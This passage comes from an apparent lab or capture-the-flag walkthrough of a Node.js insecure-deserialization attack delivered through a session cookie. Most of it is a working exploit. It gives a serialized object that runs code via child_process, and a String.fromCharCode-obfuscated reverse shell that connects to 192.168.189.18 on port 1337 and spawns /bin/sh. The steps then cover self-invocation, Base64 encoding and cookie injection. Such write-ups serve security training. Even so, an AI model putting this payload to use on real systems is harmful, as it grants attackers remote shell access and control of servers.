 - Save it as exploit.js and run it to create a serialized object

```js
node exploit.js
{"profile":"_$$ND_FUNC$$_function(){\n  require('child_process').execSync(\"echo test\", function puts(error, stdout, stderr) {});\n}"}
```

- Now we need to replace **echo test with the payload generated above** which makes our serialized object as.

```js
{"profile":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,49,56,57,46,49,56,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

- To invoke the function automatically, we need to append () at the last.
- Now enccode the above object with Base64 encoder.
![image](https://user-images.githubusercontent.com/47778874/228444352-b8ce0319-07be-4fbb-ab86-ca20713c2030.png)
- Listen to the port `1337` on your machine and replace the encoded object on sessio cookie.
![image](https://user-images.githubusercontent.com/47778874/228444703-bd84f948-821f-4a0a-b033-a7cb4b4b9f6c.png)
![image](https://user-images.githubusercontent.com/47778874/228444775-0f473d4e-f5cc-4349-b662-4c93c2611af0.png)
